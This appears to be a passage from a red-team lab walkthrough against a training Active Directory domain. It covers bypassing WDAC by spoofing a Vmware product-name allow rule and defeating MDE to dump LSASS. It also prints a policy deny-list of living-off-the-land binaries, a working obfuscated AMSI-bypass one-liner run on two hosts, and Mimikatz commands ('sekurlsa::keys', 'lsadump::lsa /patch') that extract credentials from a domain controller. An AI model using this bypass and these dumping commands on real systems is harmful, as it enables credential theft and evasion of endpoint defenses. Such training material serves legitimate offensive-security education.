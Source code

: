 ```
C:\Users\studentuser51> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\Users\studentuser51> Import-Module C:\AD\Tools\CIPolicyParser.ps1

PS C:\Users\studentuser51> ConvertTo-CIPolicy -BinaryFilePath C:\AD\Tools\DG.bin.p7 -XmlFilePath C:\AD\Tools\DG.bin.xml

    Directory: C:\AD\Tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/27/2025  10:45 AM          87806 DG.bin.xml 📌
```

Analysing the Policy XML we find an interesting rule.
We can navigate to this rule quickly by searching for the string: "Vmware".

```
PS C:\Users\studentuser51> notepad C:\AD\Tools\DG.bin.xml

[SNIP]

<Deny ID="ID_DENY_D_0213" FileName="MSBuild.Exe" />
    <Deny ID="ID_DENY_D_0214" FileName="mshta.exe" />
    <Deny ID="ID_DENY_D_0215" FileName="msxml3.dll" MinimumFileVersion="8.110.17763.54" />
    <Deny ID="ID_DENY_D_0216" FileName="msxml6.dll" MinimumFileVersion="6.30.17763.54" />
    <Deny ID="ID_DENY_D_0217" FileName="ntkd.Exe" />
    <Deny ID="ID_DENY_D_0218" FileName="ntsd.Exe" />
    <Deny ID="ID_DENY_D_0219" FileName="powershellcustomhost.exe" />
    <Deny ID="ID_DENY_D_021A" FileName="rcsi.Exe" />
    <Deny ID="ID_DENY_D_021B" FileName="runscripthelper.exe" />
    <Deny ID="ID_DENY_D_021C" FileName="texttransform.exe" />
    <Deny ID="ID_DENY_D_021D" FileName="visualuiaverifynative.exe" />
    <Deny ID="ID_DENY_D_021E" FileName="wfc.exe" />
    <Deny ID="ID_DENY_D_021F" FileName="windbg.Exe" />
    <Deny ID="ID_DENY_D_0220" FileName="wmic.exe" />
    <Deny ID="ID_DENY_D_0221" FileName="wsl.exe" />
    <Deny ID="ID_DENY_D_0222" FileName="wslconfig.exe" />
    <Deny ID="ID_DENY_D_0223" FileName="wslhost.exe" />
    <Allow ID="ID_ALLOW_A_0224" ProductName="Vmware Workstation" /> 📌
  </FileRules>
```

This is a File Attribute Allow rule that allows a file (exe/dll) having the Product Name: "Vmware Workstation".
We can attempt to abuse this rule by editing the File Attributes of an exe/dll of choice to match the Product Name mentioned. rcedit is a tool that can be used to easily achieve this.

MDE also has been enabled on `us-jump3` as enumerated previously.
We can now attempt to perform an LSASS dump on the target `us-jump3` using a covert technique/tool to bypass MDE along with WDAC.


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'